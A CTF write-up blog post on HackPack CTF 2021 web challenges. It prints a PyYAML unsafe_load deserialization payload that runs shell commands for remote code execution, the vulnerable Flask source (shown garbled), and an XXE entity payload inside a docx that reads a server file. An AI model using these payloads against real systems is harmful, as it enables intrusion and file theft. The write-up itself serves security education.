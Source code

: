 ```yaml
---
title: HackPack CTF 2021
tags: yaml nginx xxe 
---
```


# Web Writeups

![](/img/hackpack/solved.png)


Hello there we (fr334aks) took part in hackpack CTF 2021 and ended up solving all the available Web challenges,
here are our writeups for them.


## "N"ot "G"am"I"ng a"N"ymore in "X"mas 

### Challenge

![](/img/hackpack/nginx.png)


### Solution 

- tried a random name as password and used the network tab in dev options to inspect the requests
found a post request with data as `debug=0` changed that to `debug=1`  
as 

![](/img/hackpack/network.png)

and

![](/img/hackpack/hackbar.png)


which revealed the default `nginx.conf` file revealing a hidden directory `/maybehereimportantstuff` ,visiting it we are met with the flag 

![](/img/hackpack/flag1.png)


> Flag : flag{ng1nx_m1sconf1g_c4n_b3_h4rmful}



## Yaml-2-json


### Challenge

![](/img/hackpack/yaml.png)


### Solution 

full writeup for this challenge can be found here from [Saudi](https://twitter.com/trevorsaudi),  [Yaml-2-Json](https://trevorsaudi.medium.com/yaml-2-json-hackpack-ctf-7de28ef0ecff)


instead of repeating what he did i will just share the main.py file here :joy:

having gained RCE on the CTF instance i further deciced to explore a bit further

using the exploit as 

```
flag: !!python/object/apply:subprocess.check_output
       args: [ ls -lah ]
       kwds: { shell: true }
```
i was able to view all the files in the directory 

```
total 36K 
drwxr-xr-x 1 root root 4.0K Apr 14 22:17 .
drwxr-xr-x 1 root root 4.0K Apr 14 22:25 ..
-rw-rw-r-- 1 root root   30 Apr 14 22:16 .env
drwxrwxr-x 6 root root 4.0K Apr 14 22:16 .venv
drwxrwxr-x 2 root root 4.0K Apr 14 22:16 __pycache__
-rw-rw-r-- 1 root root  778 Apr 14 22:16 main.py
-rw-r--r-- 1 root root  204 Dec  6 18:41 prestart.sh
-rw-rw-r-- 1 root root  131 Apr 14 22:16 requirements.txt
drwxrwxr-x 2 root root 4.0K Apr 14 22:16 templates
```

decided to retrieve the source code `main.py`

using 

```
flag: !!python/object/apply:subprocess.check_output
       args: [ cat main.py ]
       kwds: { shell: true }
```

beautified code is below, enjoy your further analysis 


```python
from flask import Flask, render_template, make_response
from flask.globals import request
import yaml
import os
from dotenv import load_dotenv

app = Flask(__name__)
@app.route('', methods = ['GET'])

def index():
    premium = request.cookies.get('premium')
    resp = make_response(render_template("index.html", premium = premium == 'true'))

	if premium is None:
    resp.set_cookie('premium', 'false')

	return resp
@ papp.route('', methods = ['POST'])

def parse():
    load_dotenv()
premium = request.cookies.get('premium')
data = request.form['yaml']
if premium == 'true':
    json = yaml.unsafe_load(data)
else :
    json = yaml.load(data, yaml.BaseLoader)
return render_template("index.html", json = json, premium = premium == 'true')
```

## All about resetting 

### Challenge

![](/img/hackpack/resetting.png)

### solution

- Writeup by Mystik0ri0n [All-about-resetting](https://ctftime.org/writeup/27479)

## Indead V1

### Challenge

![](/img/hackpack/indead1.png)

### solution 

- Writeup by Saudi [indeadv1](https://trevorsaudi.medium.com/indead-hackpack-ctf-1b3878120da5)

- Writeup by Mystik0ri0n [Indead-v1](https://ctftime.org/user/104258)



## Indead V2 

### Challenge 

![](/img/hackpack/indead2.png)
 

interface 

![](/img/hackpack/interface.png)


### Solution 

- This was a interesting challenge where we are to take advantage of a vulnerable docx parser to trigger XXE to file inclusion,
armed with the flag location `/var/www/flag.txt` we can proceed to crack a malicious docx file that retrieves the flag for us when parsed.

started by creating a simple resume.docx file.

![](/img/hackpack/resume.png)

unzipped the file contents and changed the values of document.xml to include our payload as 

![](/img/hackpack/xxe.png)

our modifications to the document included `<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]>`

and also changing our only info in the document to call our payload when parsed

`<w:t xml:space="preserve">&test;</w:t></w:r>`

and then later zipping the contents back before uploading 

```
┌─[@parrot]─[~/Desktop/CTFs/hackpack]
└──╼ $zip resume.docx word/document.xml 
updating: word/document.xml (deflated 59%)
```

uploading the malicous document as our resume gets us the flag 

![](/img/hackpack/flag3.png)

> Flag : flag{XML_is_ancestor_0f_every7hing_do_you_agree_?} 


## Further Reading and references


- [ddosecurity,XXE](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)

- [hacktricks,nginx](https://book.hacktricks.xyz/pentesting/pentesting-web/nginx)

- [kage,0x00sec.insecure file upload](https://0x00sec.org/t/insecure-file-upload-vulnerability/21448#:~:text=Insecure%20File%20Upload%20vulnerability%20is,system%20likef%20a%20reverse%20shell.&text=Let's%20look%20at%20the%20different,against%20Insecure%20File%20Upload%20vulnerabilities.)

Thank you for your time. 
for any errors and corrections kindly reach me on twitter [@k0imet_](https://twitter.com/k0imet_)
